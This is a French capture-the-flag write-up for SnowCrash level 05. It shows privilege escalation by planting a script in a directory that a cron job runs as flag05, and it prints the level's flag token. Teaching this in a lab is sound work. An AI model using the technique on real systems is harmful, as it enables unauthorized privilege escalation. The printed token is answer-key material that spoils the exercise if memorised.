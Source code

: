 # Niveau 05 - Exploitation de Tâche Cron

## Aperçu du défi

Le niveau 05 implique la découverte et l'exploitation d'une tâche planifiée (tâche cron) qui s'exécute avec des privilèges élevés. Le défi enseigne sur :

- L'identification des messages et notifications système
- La découverte des tâches cron par l'inspection du système
- La compréhension des permissions de fichiers et l'escalade de privilèges
- L'exploitation des chemins d'exécution de scripts non sécurisés

## Reconnaissance initiale

En se connectant en tant que `level05`, vous pourriez remarquer un message système :

```
You have new mail.
```

C'est notre premier indice - il y a quelque chose d'important dans la boîte aux lettres (mail spool).

## Investigation

### Étape 1 : Vérifier le courrier

Dans les systèmes Linux, le système de messagerie est un service de messagerie simple basé sur du texte qui permet aux utilisateurs et aux processus système de communiquer. Le courrier système est souvent utilisé par :

- Les tâches cron pour rapporter des erreurs ou des sorties
- Les administrateurs système pour notifier les utilisateurs
- Les services système pour rapporter des informations critiques

Le courrier de chaque utilisateur est généralement stocké dans un fichier à `/var/mail/nom_utilisateur` ou `/var/spool/mail/nom_utilisateur`. Lorsque vous voyez un message "You have new mail", cela vaut la peine d'enquêter car il contient souvent des informations système importantes.

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Cela révèle une tâche cron qui s'exécute toutes les 2 minutes en tant qu'utilisateur `flag05`, exécutant `/usr/sbin/openarenaserver`.

#### La planification Cron (5 premiers champs)

- Première position (`*/2`) : S'exécute toutes les 2 minutes (`*/2` signifie "toutes les 2" dans la position des minutes)
- Deuxième position (`*`) : Toutes les heures
- Troisième position (`*`) : Tous les jours du mois
- Quatrième position (`*`) : Tous les mois
- Cinquième position (`*`) : Tous les jours de la semaine
  Cela se traduit donc par : "Exécuter toutes les 2 minutes, 24h/24, 7j/7"

#### La partie commande

- `su` : Commande pour changer d'utilisateur (Switch user)
- `-c` : Option qui signifie "exécuter la commande suivante"
- `"sh /usr/sbin/openarenaserver"` : La commande à exécuter (exécute le script en utilisant `sh`)
- `-` : Fournit un environnement propre pour la nouvelle session utilisateur
- `flag05` : L'utilisateur vers lequel basculer lors de l'exécution de la commande

### Étape 2 : Examiner le script

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Le script :

- Utilise une boucle `for` pour itérer sur tous les fichiers dans `/opt/openarenaserver/`
- Pour chaque fichier trouvé :
  - Définit une limite de temps CPU de 5 secondes (`ulimit -t 5`)
  - Exécute le fichier avec bash en mode débogage (`bash -x`)
  - Supprime le fichier après exécution (`rm -f`)
- Le script s'exécute avec les permissions de `flag05` grâce à la tâche cron

## Analyse de la vulnérabilité

La vulnérabilité réside dans le fait que le script exécute n'importe quel fichier placé dans `/opt/openarenaserver/` avec les permissions de `flag05`.

## Stratégie d'exploitation

1. Créer un script dans le répertoire cible qui exécute `getflag`.
2. Le rendre exécutable.
3. Attendre que la tâche cron l'exécute (dans les 2 minutes).
4. Le résultat sera capturé pour une visualisation ultérieure.

## Étapes d'exploitation

### Étape 1 : Créer un script qui capture le drapeau

```bash
$ echo '#!/bin/sh' > /opt/openarenaserver/exploit.sh
$ echo 'getflag > /tmp/flag05' >> /opt/openarenaserver/exploit.sh
$ chmod +x /opt/openarenaserver/exploit.sh
```

### Étape 2 : Attendre l'exécution

Attendre jusqu'à 2 minutes que la tâche cron exécute notre script.

### Étape 3 : Récupérer la sortie capturée

```bash
$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Leçons de sécurité

1. **Principe du moindre privilège** : Les tâches cron devraient s'exécuter avec les privilèges minimums nécessaires.

2. **Chemins de script sécurisés** : Les scripts qui s'exécutent avec des privilèges élevés devraient être dans des emplacements sécurisés non modifiables par les utilisateurs moins privilégiés.

3. **Validation des entrées** : La boucle `for` dans le script exécute n'importe quel fichier sans validation, créant un risque de sécurité.

4. **Audits de sécurité réguliers** : Les tâches cron devraient être régulièrement auditées pour les problèmes de sécurité.

## Résumé

Ce défi démontre un vecteur commun d'escalade de privilèges via une configuration de tâche cron non sécurisée. En abusant d'un script qui exécute automatiquement des fichiers créés par l'utilisateur, nous avons pu escalader vers les privilèges de `flag05` et capturer le jeton.

Le drapeau pour le niveau 05 est : `viuaaale9huek52boumoomioc`
